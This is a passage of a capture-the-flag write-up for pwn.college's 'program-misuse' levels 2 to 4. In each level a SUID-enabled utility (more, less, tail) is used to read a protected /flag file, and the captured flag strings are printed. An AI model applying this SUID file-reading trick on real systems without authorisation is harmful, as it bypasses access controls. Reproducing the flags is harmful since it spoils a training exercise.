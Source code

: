 The `more` utility is used to view the text files in the command prompt, displaying one screen at a time in case the file is large

```
hacker@program-misuse~level2:/$ more /flag 
pwn.college{8nKR5pz91-h1cYlHhZmDBmfVinu.0FN0EDL4ITM0EzW}
```

&nbsp;

## level 3

> Lets you directly read the flag!

```
hacker@program-misuse~level3:/$ /challenge/babysuid_level3 
Welcome to /challenge/babysuid_level3!

This challenge is part of a series of programs that
exposes you to very simple programs that let you directly read the flag.

I just set the SUID bit on /usr/bin/less.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level3) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/less!
```

```
hacker@program-misuse~level3:/$ less /flag 

pwn.college{IX-08qc07NdQNs4pFqSr_dS4pJG.0VN0EDL4ITM0EzW}
```

&nbsp;

## level 4

> Lets you directly read the flag!

```
hacker@program-misuse~level4:/$ /challenge/babysuid_level4 
Welcome to /challenge/babysuid_level4!

This challenge is part of a series of programs that
exposes you to very simple programs that let you directly read the flag.

I just set the SUID bit on /usr/bin/tail.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level4) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/tail!
```

```
hacker@program-misuse~level4:/$ tail /flag 
pwn.college{EdUnBdQarvdiF0S9pEJ-LBK33mq.0lN0EDL4ITM0EzW}
```
